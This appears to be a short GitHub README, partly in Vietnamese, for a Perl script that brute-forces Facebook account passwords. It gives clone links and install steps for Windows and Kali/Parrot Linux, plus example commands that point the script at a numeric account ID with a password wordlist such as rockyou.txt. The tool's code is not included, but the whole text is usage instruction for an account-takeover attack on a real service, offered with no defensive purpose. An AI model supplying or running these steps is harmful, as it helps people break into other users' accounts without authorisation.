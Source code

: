 # BruteForce FaceBook

Anh em nào dùng WINDOWS thì hãy tải PERL về máy để chạy nhé.
(If you use WINDOWS, download PERL to your computer to run it)

*WINDOWS:

Download source code and open terminal: https://github.com/sonvan1811/bruteforceFBwindow.git

 Trỏ đến thư mục chứa tệp 'Hevin1811" 
 (Point to the directory containing the file 'Hevin1811')

perl bffb.pl <ID> <wordlist>
 
 [+] Ex: perl bffb.pl 10009876655428 C:\Bffb\wordlist\passwords.txt

============================================================================================
 
  *KALI LINUX AND PARROT OS:
  
  open terminal:
  
  `git clone https://github.com/sonvan1811/Hevin1811.git`
  
  `cd bffb`
  
  `chmod +x bffb.pl`
  
  `perl bffb.pl`
  
  [+] Ex: perl bffb.pl 10009876655428 /usr/share/wordlists/rockyou.txt
  
  
